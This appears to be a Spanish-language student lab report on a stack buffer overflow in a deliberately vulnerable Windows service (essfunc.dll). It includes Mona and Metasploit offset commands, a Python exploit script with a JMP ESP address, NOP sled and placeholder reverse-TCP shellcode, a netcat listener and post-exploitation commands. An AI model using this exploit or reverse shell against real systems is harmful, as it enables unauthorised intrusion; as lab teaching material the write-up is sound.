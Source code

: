 ```yaml
---
title: Trabajo Buffer Overflow
date: 2024-11-04 00:21:00 -05:00
categories: [web, Overflow]
tags: [buffer, overflow]  # tag names should always be lowercase
---
```




## Requerimientos del Trabajo Buffer Overflow

### 1. Verificar Direcciones `JMP ESP` y Probar Vulnerabilidad para Buffer Overflow

El primer objetivo, es identificar y verificar si alguna de las direcciones `JMP ESP` en el módulo vulnerable (`essfunc.dll`) permite redirigir el flujo de ejecución a nuestro código malicioso (shellcode).

#### Paso 1.1: Buscar Direcciones `JMP ESP`

Utilizamos el plugin **Mona** en **Immunity Debugger** para localizar las instrucciones `JMP ESP` en `essfunc.dll`. Esto es esencial para redirigir la ejecución hacia nuestra shellcode cuando se desborda el buffer.

```plaintext
!mona find -s "\xff\xe4" -m essfunc.dll
```

La salida nos muestra una lista de direcciones posibles con `JMP ESP`. Ahora, utilizaremos una de estas direcciones en nuestro exploit.

#### Paso 1.2: Calcular el Offset del Buffer

Para sobrescribir el registro **EIP** (Instruction Pointer) y redirigir la ejecución, necesitamos conocer el desplazamiento (offset) en el buffer que alcanza el EIP.

1. Generar un patrón de prueba de 400 bytes con **Metasploit**:
   ```bash
   /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 400
   ```
2. Ejecutamos el patrón en el programa vulnerable para provocar un crash.
3. Revisamos el valor que sobrescribe el **EIP** y calculamos el offset:
   ```bash
   /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <VALOR_EIP>
   ```


#### Paso 1.3: Construir el Payload para el Exploit

Con el offset y la dirección `JMP ESP` esta confirmada, entonces procedemos a crear el exploit en Python.

```python
import socket
import struct

# Información del objetivo
ip = "IP_OBJETIVO"
port = 9999

# Configuración del payload
offset = <OFFSET_CALCULADO>
buffer = b"A" * offset
jmp_esp = struct.pack("<I", 0x625011af)  # Dirección de JMP ESP verificada
nop_sled = b"\x90" * 16

# Shellcode para conexión TCP reversa (generado con msfvenom)
shellcode = (
    b"\xdb\xd3\xd9\x74\x24\xf4\x58\x2b\xc9\xb1\x52\x31\x58\x17\x03\x58\x17"
    # (Ejemplo de shellcode; reemplazar con el generado)
)

payload = buffer + jmp_esp + nop_sled + shellcode

# Enviar el payload
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((ip, port))
    s.send(payload)
```



### 2. Explicación de una Conexión TCP Reversa

Una **conexión TCP reversa** es una técnica en la cual la máquina comprometida inicia una conexión hacia el atacante, el cual está escuchando en un puerto específico. Este tipo de conexión es útil para evadir restricciones de firewall, ya que muchas redes permiten conexiones salientes.

#### Setup de Laboratorio: Conexión TCP Reversa

Para esta práctica, usamos dos máquinas virtuales (VMs): **Kali Linux** como atacante y una **máquina Windows vulnerable** como objetivo.

**Diagrama del Setup**:

```plaintext
+----------------+                 +----------------+
|   Kali Linux   | <----TCP----->  |    Windows     |
| (Listener)     |                 | (Vulnerable)   |
+----------------+                 +----------------+
```

En **Kali Linux**, usamos **Netcat** para escuchar conexiones:

```bash
nc -lvnp 4444  # Escuchar en el puerto 4444
```

Cuando el exploit se ejecuta en la máquina Windows, esta se conecta al listener en Kali, dándonos acceso a una shell remota.



### 3. Verificación de Permisos en la Shell

Después de obtener el acceso, es importante verificar los permisos de la shell obtenida, lo cual nos permitirá saber qué privilegios tenemos en la máquina objetivo (maquina infectada)

#### Paso 3.1: Comprobar Privilegios del Usuario

En la shell remota, ejecutamos los siguientes comandos para obtener información sobre los permisos y el usuario activo:

1. **Comprobar el usuario actual**:
   ```bash
   whoami
   ```

2. **Listar usuarios y roles**:
   ```bash
   net user
   ```

Estos comandos nos permitirán determinar si tenemos permisos administrativos o si se requiere una escalada de privilegios.

## Conclusión

Se analiza, cómo explotar una vulnerabilidad de buffer overflow para redirigir la ejecución y obtener una conexión TCP reversa en una máquina comprometida. Esta experiencia permitio entender el proceso de explotación y la configuración de un entorno de pruebas en ciberseguridad.
